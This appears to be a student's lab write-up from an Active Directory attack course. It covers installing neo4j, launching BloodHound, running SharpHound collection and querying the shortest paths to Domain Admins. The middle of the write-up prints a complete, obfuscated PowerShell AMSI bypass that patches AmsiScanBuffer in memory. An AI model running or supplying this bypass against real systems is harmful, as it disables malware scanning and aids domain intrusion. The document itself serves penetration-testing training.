 # 🐩 BloodHound, Identify Paths

I start by unziping the file C:\AD\Tools\neo4j-community-4.1.1- windows.zip

then i started the neo4j server like this:

```
.\neo4j.bat install-service
.\neo4j.bat start
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I get on this page with simple password neo4j:neo4j

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Now i launch bloodhound via the following path (C:\AD\Tools\BloodHound-win32-x64\BloodHound-win32-x64) and enter the credentials that i set&#x20;

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I then open my terminal and using invisishell and do the following

```
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat 
cd C:\AD\Tools\BloodHound-master\BloodHound-master\Collectors
```

Then i'm going to copy and paste this code snip in my terminal to bypass .NET AMSI before running SharpHound.ps1:

<pre><code><strong>$ZQCUW = @"
</strong>using System;
using System.Runtime.InteropServices;
public class ZQCUW {
 [DllImport("kernel32")]
 public static extern IntPtr GetProcAddress(IntPtr hModule, string
procName);
 [DllImport("kernel32")]
 public static extern IntPtr LoadLibrary(string name);
 [DllImport("kernel32")]
 public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr
dwSize, uint flNewProtect, out uint lpflOldProtect);
}
"@
Add-Type $ZQCUW
$BBWHVWQ =
[ZQCUW]::LoadLibrary("$([SYstem.Net.wEBUtIlITy]::HTmldecoDE('&#x26;#97;&#x26;#109;&#x26;#115;&#x26;#105;&#x26;#46;&#x26;#100;&#x26;#108;&#x26;#108;'))")
$XPYMWR = [ZQCUW]::GetProcAddress($BBWHVWQ,
"$([systeM.neT.webUtility]::HtMldECoDE('&#x26;#65;&#x26;#109;&#x26;#115;&#x26;#105;&#x26;#83;&#x26;#99;&#x26;#97;&#x26;#110;&#x26;#66;&#x26;#117;&#x26;#102;&#x26;#102;&#x26;#101;&#x26;#114;'))")
$p = 0
[ZQCUW]::VirtualProtect($XPYMWR, [uint32]5, 0x40, [ref]$p)
$TLML = "0xB8"
$PURX = "0x57"
$YNWL = "0x00"
$RTGX = "0x07"
$XVON = "0x80"
$WRUD = "0xC3"
$KTMJX = [Byte[]] ($TLML,$PURX,$YNWL,$RTGX,+$XVON,+$WRUD)
[System.Runtime.InteropServices.Marshal]::Copy($KTMJX, 0, $XPYMWR, 6)
</code></pre>

Then we can simply run sharphound

```
. .\SharpHound.ps1
Invoke-BloodHound -CollectionMethod All -Verbose
```

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Then we can upload the JSON files to get a visual render with the GUI.&#x20;

I can look for myself:

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

In Node Info, scroll down to 'LOCAL ADMIN RIGHTS' and expand 'Derivative Local Admin Rights' to find if student613 has derivate local admin rights on any machine!

<figure><img src="../../.gitbook/assets/image (11) (1) (1) (1) (1).png" alt=""><figcaption><p>Theres an issue with GUI so this screenshot is from course content</p></figcaption></figure>

To complete the task we go on the Web UI of bloodhound provided by the course, login with the creds and follow with this methodology:

n the Web UI, click on Cypher -> Click on the Folder Icon -> Pre-Built Searches -> Active Directory -> (Scroll down) -> Shortest paths to Domain Admins

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

